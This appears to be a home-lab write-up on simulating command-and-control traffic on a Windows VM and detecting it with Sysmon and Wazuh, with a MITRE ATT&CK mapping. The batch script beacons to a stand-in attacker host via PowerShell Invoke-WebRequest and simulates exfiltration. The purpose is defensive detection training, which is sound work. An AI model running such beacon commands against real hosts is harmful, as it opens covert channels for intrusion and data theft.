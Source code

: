 # Hint 9: Command and Control (C2) Simulation

## Simulation
I simulated a Command and Control (C2) attack on my Windows 10 VM to mimic an attacker establishing communication with a remote server after gaining access. I created a batch file (`c2_sim.bat`) that simulates C2 behavior by making HTTP requests to a fake server (`attacker-c2-server.com`), pinging a fake IP (`203.0.113.1`), and creating a file to simulate data exfiltration or command receipt.

## Command Used
```bat
@echo off
echo Simulating C2 communication...
REM Simulate beaconing to a C2 server using curl (or powershell if curl unavailable)
powershell -Command "Invoke-WebRequest -Uri 'http://attacker-c2-server.com:8080/beacon' -Method GET -UseBasicParsing"
REM Simulate periodic network communication with ping
ping 203.0.113.1 -n 3
REM Simulate receiving a command or exfiltrating data
echo Simulated C2 command received > C:\Users\mohan\Downloads\c2_data.txt
REM Simulate accessing the command/data file
type C:\Users\mohan\Downloads\c2_data.txt
echo C2 simulation complete.
```

## Logs Generated
- **Sysmon Logs (Event Viewer):** Captured the process creation for `c2_sim.bat` (Event ID 1), `powershell.exe` (Event ID 1), network connection to `203.0.113.1` (Event ID 3), and file creation for `c2_data.txt` (Event ID 11).  
- **Wazuh Dashboard:** Displayed the Sysmon events, confirming the activity was logged and forwarded.

## Screenshots
- **Sysmon Log for `c2_sim.bat` Execution (Event ID 1):** ![C2 Sim Log](../screenshots/hint-9-1.png)  
- **Sysmon Log for `powershell.exe` (Event ID 1):** ![PowerShell Log](../screenshots/hint-9-2.png)  
- **Sysmon Log for Network Connection to `203.0.113.1` (Event ID 3):** ![Network Connection Log](../screenshots/hint-9-3.png)  
- **Wazuh Log for `powershell.exe` (Event ID 1):** ![Wazuh PowerShell Log](../screenshots/hint-9-4.png)  
- **Wazuh Log for File Creation (Event ID 11):** ![Wazuh File Creation Log](../screenshots/hint-9-5.png)

## Analysis
- **Pattern Observed:** The script execution began with `c2_sim.bat` running (Event ID 1, see hint-9-1.png), which invoked `powershell.exe` to attempt an HTTP request to `attacker-c2-server.com` (Event ID 1, see hint-9-2.png and hint-9-4.png). A `ping` to `203.0.113.1` simulated network communication (Event ID 3, see hint-9-3.png). A file `c2_data.txt` was created to simulate data exfiltration or command receipt (Event ID 11, see hint-9-5.png).  
- **Fields Analyzed:**  
  - `data.win.eventdata.commandLine`: Contains `c2_sim.bat` (hint-9-1.png)  
  - `data.win.eventdata.commandLine`: Contains `Invoke-WebRequest` (hint-9-2.png and hint-9-4.png)  
  - `data.win.eventdata.destinationIp`: `203.0.113.1` (hint-9-3.png)  
  - `data.win.eventdata.targetFilename`: `C:\Users\mohan\Downloads\c2_data.txt` (hint-9-5.png)  
- **Impact:** The HTTP request and `ping` attempts indicate C2 beaconing, while the file creation suggests data exfiltration or command receipt, typical of malware communicating with an attacker-controlled server.

## MITRE ATT&CK Mapping
- **T1059: Command and Scripting Interpreter** (Execution): The batch file (`c2_sim.bat`) and PowerShell were used to execute commands (hint-9-1.png and hint-9-2.png).  
- **T1071: Application Layer Protocol** (Command and Control): The script simulated C2 communication over HTTP using `Invoke-WebRequest` (hint-9-2.png and hint-9-4.png).  
- **T1041: Exfiltration Over C2 Channel** (Exfiltration): The creation of `c2_data.txt` simulated data exfiltration or command receipt over the C2 channel (hint-9-5.png).

